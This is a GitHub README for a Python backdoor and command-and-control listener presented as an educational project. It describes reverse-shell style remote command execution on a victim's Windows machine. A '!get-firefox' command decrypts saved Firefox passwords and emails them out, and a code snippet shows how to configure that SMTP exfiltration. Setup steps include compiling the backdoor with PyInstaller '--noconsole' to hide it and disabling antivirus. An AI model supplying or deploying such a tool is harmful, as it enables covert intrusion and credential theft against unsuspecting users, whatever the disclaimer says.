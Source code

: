
# 🔍 Backdoor & C2 Listener (Educational Project)

This project combines **two Python scripts** to demonstrate, for educational purposes, how a **Backdoor** and a basic **Command & Control (C2)** system work:

- `backdoor.py`: runs on the victim machine and establishes a connection to the attacker.  
- `c2_listener.py`: runs on the attacker machine and allows remote command execution.

The purpose of this project is to **teach and learn offensive and defensive security concepts**, helping security analysts and students understand how these techniques operate and develop **countermeasures**.

> ⚠️ Certain functionalities of `backdoor.py` are **focused on Windows systems**. It is recommended to run it on Windows for full compatibility.  

---

## 🖼️ Architecture

```text
+----------------+           +----------------+
| Victim Machine | --------> | Attacker C2    |
| (backdoor.py)  |           |(c2_listener.py)|
+----------------+           +----------------+
        |                           ^
        | Remote Command / Data     |
        |-------------------------->|
        |                           |
```



---

## 🚀 Features

- 📡 Reverse connection between client (victim) and server (attacker)  
- 💻 Remote command execution  
- 📂 Use the SMTP protocol to send information from accounts saved in Firefox  
- 🔐 Simple communication (no encryption, for educational purposes)  
- 🛠️ Easy-to-understand Python code, easy to modify  
- 💡 Special command `!get-firefox` in the C2 sends an email with saved Firefox account information (requires configuration, see below)  

---

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/RandyNin/c2-backdoor.git
cd c2-backdoor

# Install dependencies
pip install -r requirements.txt
pip install requests  # required for backdoor functionality
````

---

## ⚡ Usage

> **Note:** The scripts do not use command-line parameters.

### 1️⃣ On the attacker machine (listener):

```bash
python c2_listener.py
```

### 2️⃣ On the victim machine (backdoor):

```bash
python backdoor.py
```

> **Optional (Recommended for testing in controlled environments):**  
> Compile `backdoor.py` with PyInstaller to avoid Python dependency and required libraries:
> 
> ```bash
> pyinstaller --onefile --noconsole backdoor.py
> ```
> 
> This will create a standalone executable.

> **Educational Warning:** To ensure the backdoor runs on the victim machine, antivirus protection may need to be disabled. Use only in **controlled and authorized environments**.

---

## 💡 Firefox Account Export Function

The `!get-firefox` command in the C2 listener will send saved Firefox account information via email. To use this feature:

1. Modify the following lines in `c2_listener.py` with your own email configuration:
    

```python
self.send_email(
    "Decrypted Firefox Passwords",
    passwords,
    '<Your email Address>',
    ["<Destination addresses>"],
    "<Email app password>"
)
```

2. Create an **App Password** for your email (Gmail, Outlook, etc.) and use it in the `"<Email app password>"` field.
    
3. Ensure `requests` library is installed before compiling or running the `backdoor.py`.
    

---

## 📚 Requirements

- Python **3.10+**
    
- `requests` library (for Windows Firefox functionality)
    

---

## ⚠️ Disclaimer

This software is provided **for educational purposes only**.  
It should only be used in **controlled and authorized environments**.  
The author is **not responsible for any misuse** of this tool.

